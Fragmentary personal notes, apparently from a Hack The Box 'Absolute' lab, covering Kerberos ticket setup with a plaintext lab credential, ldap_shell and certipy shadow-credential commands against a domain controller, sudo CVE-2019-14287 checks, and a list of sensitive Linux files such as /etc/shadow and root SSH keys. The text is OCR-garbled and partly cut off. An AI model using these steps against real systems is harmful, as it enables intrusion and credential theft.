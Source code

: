 shadow creds,  logging in with cert + priv key

sync time with ad!
  ntpdate to sync date

ldap_shell -dc-ip 10.10.11.181 -dc-host dc.absolute.htb  absolute.htb/m.lovegod:’AbsoluteLDAP2022!’

kinit -h
kinit m.lovegod@absolute.htb
sudo nano /etc/krb5.conf
  add in all caps
  add domain

kinit M.LOVEGOD@ABSOLUTE.HTB
gets kerb ticket

export KRB5CCNAME=/tmp/krb5cc_1000

ldap_shell -dc-ip 10.10.11.181 -dc-host dc.absolute.htb -k -no-pass absolute.htb/m.lovegod
  gets shell
  tool to get shell, alt is impacket-get-TGT

# add_user_to_group

certipy shadow auto-u  ‘’m.lovegod@
![[Images/image40.png]]








Website  -  /index.php?page=home.html









enumeration

uname -a

check ~/.bash_history for different users

.bash_profile and .bashrc are files containing shell commands that are run when Bash is invoked

check sudo -v, find cve. versions < 1.8.28 are vulnerable to CVE-2019-14287





useful files linux

/etc/issue	contains a message or system identification to be printed before the login prompt.
/etc/profile	controls system-wide default variables, such as Export variables, File creation 
	mask (umask), Terminal types, Mail messages to indicate when new mail has 
	arrived
/proc/version	specifies the version of the Linux kernel
/etc/passwd	has all registered user that has access to a system
/etc/shadow	contains information about the system's users' passwords
/root/.bash_history	contains the history commands for root user
/var/log/dmessage	contains global system messages, including the messages that are logged 
	during system startup
/var/mail/root	all emails for root user
/root/.ssh/id_rsa	Private SSH keys for a root or any known valid user on the server
/var/log/apache2/access.log	the accessed requests for Apache  webserver
/etc/os-release
